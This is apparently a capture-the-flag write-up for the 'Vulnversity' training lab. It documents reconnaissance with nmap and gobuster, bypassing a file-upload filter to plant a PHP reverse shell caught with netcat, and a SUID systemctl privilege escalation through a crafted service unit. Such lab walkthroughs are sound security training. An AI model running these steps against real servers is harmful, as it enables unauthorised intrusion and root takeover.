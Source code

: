 # Vulnversity
target ip: 10.10.165.42

my machine ip: 10.9.234.242

#### Reconnaissance
1. There are many nmap "cheatsheets" online that you can use too.
    - No answer required
2. Scan the box, how many ports are open
    - Perform NMAP Scan: `nmap -sC -sV 10.10.165.42`
3. What version of the squid proxy is running on the machine?
    - check the open port 3128 for the version
4. How many ports will nmap scan if the flag -p-400 was used?
    - check the manual for NMAP for the flag. `man nmap`
5. Using the nmap flag -n what will it not resolve?
    - check the manual for NMAP for the flag. `man nmap`
6. What is the most likely operating system this machine is running?
    - check the result of the NMAP scan or perform another scan `nmap -O 10.10.165.42`
7. What port is the web server running on?
    - check the nmap result, which port is Apache webserver working with?
8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)
    - No answer required.

#### Locating directories using GoBuster
1. Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.
    - No answer required
2. What is the directory that has an upload form page?
    - Perform a gobuster scan: `gobuster dir -w <wordlist for directories> -u http://10.10.165.42:3333`
    - Check the directories or file outputted by gobuster

#### Compromise the webserver
1. Try upload a few file types to the server, what common extension seems to be blocked?
    - what file format does apache webserver usually run?
2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're going to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our BurpSuite room first.
    - No answer required
3. Run this attack, what extension is allowed?
    - create a wordlist file that consist of: php, php3, php4, php5, phtml
    - get the php reverse shell from this link https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    - make sure to change the listening ip and port within the file
    - intercept the post request for the file upload to the website with burpsuite and send it to the intruder. Target the payload that you want to modify using the wordlist that you've created.
    - Check the responses from the intruder window which extension was able to pass-through
4. What is the name of the user who manages the webserver?
    - Now that our file has been uploaded, in your terminal run this commmand `nc -lvnp <port you've added>`
    - Go to /internal/uploads and click on the shell that we've uploaded and boom! We have a shell
    - Go to /home to see who's the user.
5. What is the user flag?
    - check the files under /home/bill

#### Privilege Escalation
1. On the system, search for all SUID files. What file stands out?
    - Perform the command: `find / -perm /4000 2>/dev/null` and find the command/file that stands out
2. Become root and get the last flag (/root/root.txt)
    - go to the link https://gtfobins.github.io/ and search for systemctl SUID
    - peform this command on the shell
    ```
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"
    [Install]
    WantedBy=multi-user.target' > $TF
    /bin/systemctl link $TF
    /bin/systemctl enable --now $TF
    ```
